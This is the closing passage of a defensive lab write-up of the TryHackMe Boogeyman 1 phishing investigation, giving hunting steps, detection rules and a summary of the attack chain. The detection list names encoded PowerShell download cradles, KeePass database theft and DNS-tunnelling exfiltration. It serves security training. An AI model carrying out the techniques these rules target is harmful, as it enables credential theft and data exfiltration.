10. **Hunt across the environment** for the domains, IP addresses, filenames, PowerShell arguments, custom HTTP header, and unusual DNS patterns.
11. **Review DNS telemetry** for long, high-entropy or hexadecimal subdomains under `bpakcaging.xyz`.
12. **Review network traffic from neighboring systems** for related C2 activity, credential theft, or lateral movement.

---

# Detection Opportunities

* Alert on password-protected archives containing `.lnk` files.
* Detect shortcuts that launch `powershell.exe` with `-nop`, hidden windows, or `-enc`.
* Monitor PowerShell Script Block Event ID `4104` for `DownloadString`, `Invoke-WebRequest`, and encoded execution.
* Alert when PowerShell communicates directly with rare external domains or non-standard web ports.
* Detect the `WindowsPowerShell` HTTP user-agent when combined with unusual domains, ports, URIs, or custom headers.
* Monitor access to `plum.sqlite` and `.kdbx` files by unusual or newly downloaded processes.
* Detect repeated DNS queries containing long hexadecimal labels.
* Correlate DNS-tunnelling patterns with recent PowerShell and sensitive-file access on the same endpoint.

---

# Conclusion

This investigation demonstrated how email, endpoint, and network evidence can be combined to reconstruct a complete attack chain.

I began with a suspicious invoice email, safely extracted and analyzed its Windows shortcut, traced the resulting PowerShell activity, identified the attacker's tools and infrastructure, and confirmed two methods of data loss.

HTTP POST traffic returned command output through the C2 channel, while DNS queries carried the hex-encoded KeePass database to a separate server.

The combined evidence supported classification of the incident as a **True Positive involving endpoint compromise, credential theft, and confirmed sensitive-data exfiltration**.

## Skills Demonstrated

* Phishing email and header analysis
* Safe attachment handling
* Windows LNK forensics
* PowerShell Script Block log analysis
* JSON filtering with `jq`
* Endpoint and network-event correlation
* Wireshark TCP-stream analysis
* HTTP C2 identification
* DNS exfiltration investigation
* Data decoding with CyberChef
* Credential-access investigation
* IOC extraction
* MITRE ATT&CK mapping
* SOC incident classification and escalation
* Incident-response recommendations

---

> **Lab Environment:** This investigation was completed in the authorized TryHackMe *Boogeyman 1* cybersecurity training environment. All domains, IP addresses, credentials, payment-card data, users, and systems referenced in this report belong to the lab scenario.
